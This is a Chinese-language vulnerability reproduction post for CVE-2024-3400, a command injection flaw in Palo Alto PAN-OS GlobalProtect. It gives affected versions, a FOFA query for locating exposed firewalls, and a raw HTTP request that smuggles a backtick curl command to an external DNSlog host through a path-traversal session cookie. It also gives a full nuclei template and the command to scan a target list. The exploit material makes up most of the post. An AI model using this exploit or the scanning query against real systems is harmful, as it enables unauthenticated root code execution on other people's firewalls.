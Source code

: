 **漏洞名称**

Palo Alto Networks PAN-OS GlobalProtect 命令注入漏洞

02

**漏洞影响**

  影响版本

  PAN-OS 10.2 < 10.2.9-h1

  PAN-OS 11.0 < 11.0.4-h1

  PAN-OS 11.1 < 11.1.2-h3

  安全版本

  PAN-OS 10.2.9-h1

  PAN-OS 11.0.4-h1

  PAN-OS 11.1.2-h3

**漏洞描述**

Palo Alto Networks PAN-OS GlobalProtect 是Palo Alto Networks 的一款防火墙产品。2024年4月12日，官方披露CVE-2024-3400 Palo Alto Networks GlobalProtect 命令注入漏洞。在特定PAN-OS版本和不同功能配置下，未经身份验证的攻击者可能利用此漏洞在防火墙上以root权限执行任意代码。



**FOFA搜索语句**



```
icon_hash="-631559155"
```

**漏洞复现**



poc如下，注入点在Cookie中，将其中的DNSlog地址替换为你的dnslog地址,借助DNSLOG来复现，可以使用http://dnslog.pw/



```yaml
GET /global-protect/login.esp HTTP/1.1
Host: 192.168.30.112:1005
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36 Edg/92.0.902.84
Connection: close
Cookie: SESSID=/../../../opt/panlogs/tmp/device_telemetry/minute/hellothere226`curl${IFS}dnslog地址`;
Accept-Encoding: gzip
```

漏洞复现成功



**nuclei poc**

poc文件内容如下

```yaml

id: CVE-2024-3400

info:
  name: GlobalProtect - OS Command Injection
  author: pdresearch,parthmalhotra
  severity: critical
  description: |
    A command injection vulnerability in the GlobalProtect feature of Palo Alto Networks PAN-OS software for specific PAN-OS versions and distinct feature configurations may enable an unauthenticated attacker to execute arbitrary code with root privileges on the firewall.Cloud NGFW, Panorama appliances, and Prisma Access are not impacted by this vulnerability.
  reference:
    - https://labs.watchtowr.com/palo-alto-putting-the-protecc-in-globalprotect-CVE-2024-3400/
    - https://github.com/fkie-cad/nvd-json-data-feeds
    - https://github.com/k4nfr3/nmap-scripts
    - https://github.com/0x0d3ad/CVE-2024-3400
    - https://github.com/FoxyProxys/CVE-2024-3400
    - https://github.com/MrR0b0t19/CVE-2024-3400
    - https://nvd.nist.gov/vuln/detail/CVE-2024-3400
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
    cvss-score: 10
    cve-id: CVE-2024-3400
    cwe-id: CWE-77
    epss-score: 0.00371
    epss-percentile: 0.72356
    cpe: cpe:2.3:o:paloaltonetworks:pan-os:10.2.0:*:*:*:*:*:*:*
  metadata:
    verified: true
    max-request: 1
    fofa-query: icon_hash="-631559155"
    product: pan-os
    vendor: paloaltonetworks
  tags: cve,cve2024,globalprotect,pan-os,rce,oast,kev

http:
  - raw:
      - |
        GET /global-protect/login.esp HTTP/1.1
        Host: {{Hostname}}
        Cookie: SESSID=/../../../opt/panlogs/tmp/device_telemetry/minute/hellothere226`curl${IFS}{{interactsh-url}}`;

    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol
        words:
          - "http"

      - type: word
        part: body
        words:
          - "GlobalProtect Portal"
```

运行POC

```
nuclei.exe -t mypoc/cve/CVE-2024-3400.yaml -l data\1.txt
```

